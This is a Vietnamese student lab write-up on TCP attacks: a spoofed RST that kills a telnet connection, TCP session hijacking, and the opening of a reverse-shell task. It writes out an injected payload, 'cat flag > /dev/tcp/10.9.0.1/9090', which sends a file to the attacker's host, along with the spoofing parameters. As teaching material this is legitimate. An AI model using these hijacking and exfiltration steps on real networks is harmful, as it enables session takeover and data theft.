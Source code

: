 - Thực hiện chạy đoạn code này ở terminal attacker để gửi RST packet spoof từ 10.9.0.6 đến 10.9.0.5 nhằm chấm dứt kết nối telnet đã được thiết lập

    ![](https://i.imgur.com/x83tjE7.png)

- Sau khi thực hiện thì đoạn code ở terminal attacker thì ta quay lại terminal user1 để kiểm tra thì thấy nó đã bị ngắt kết nối, thế là cuộc tấn công TCP RST của chúng ta đã thành công.

    ![](https://i.imgur.com/L1L71fV.png)

- Kiểm tra `wireshark` để có thể quan sát được ta đã gửi gói tin spoof đi thành công 

    ![](https://i.imgur.com/XksynYa.png)

## Task 3: TCP Session Hijacking

Mục đích của cuộc tấn công TCP session hijacking là chiếm đọat được một session TCP connect đang tồn tại giữa 2 máy bằng cách đưa nội dung độc hại vào session này. 

- Đề cho ta một sườn code với các giá trị khuyết, bây giờ ta cần phải hoàn thành code đó để tạo nên một cuộc tấn công TCP Session Hijacking.

- Đầu tiên ta bật `wireshark`

- Sau đó thực hiện kết nối `telnet` giữa `user1` với `victim` và tạo một file `flag` với nội dung `this is flag`

    ![](https://i.imgur.com/Dgff5qb.png)
    
- Tiếp đến ta dùng `wireshark` để tìm ra các thông tin bị khuyết bằng bằng gói tin quét được.

    ![](https://i.imgur.com/ihZyjoL.png)
    
- Và hoàn thành các nội dung bị khuyết với `IP src= 10.9.0.6, IP dst =10.9.0.5, TCP sport = 52610, TCP dport = 23, seq= 538944203 và ack=721067092` và `data = cat flag > /dev/tcp/10.9.0.1/9090` (Điều này khiến đầu ra (stdout) của shell được chuyển hướng đến kết nối tcp tới cổng 9090 của 10.9.0.1) thì đoạn code sẽ như sau :

    ![](https://i.imgur.com/5jnEln4.png)

- Bây giờ ta thực thi đoạn code này ở terminal attacker 

    ![](https://i.imgur.com/eVx9U7I.png)
    
    Vậy là ta đã có thể thực hiện được cuộc tấn công TCP Session hijacking.
    
## Task 4: Creating Reverse Shell using TCP Session Hijacking

Thay vì dùmg TCP Session Hijacking để thực thi các command thì rõ ràng là nó không thuận tiện và rất mất thời gian. Để có thể thực thi nhiều command thì ta chỉ cần tạo một shell victim trên máy attacker là được. 

Thực hiện khá giống task3 ở trên
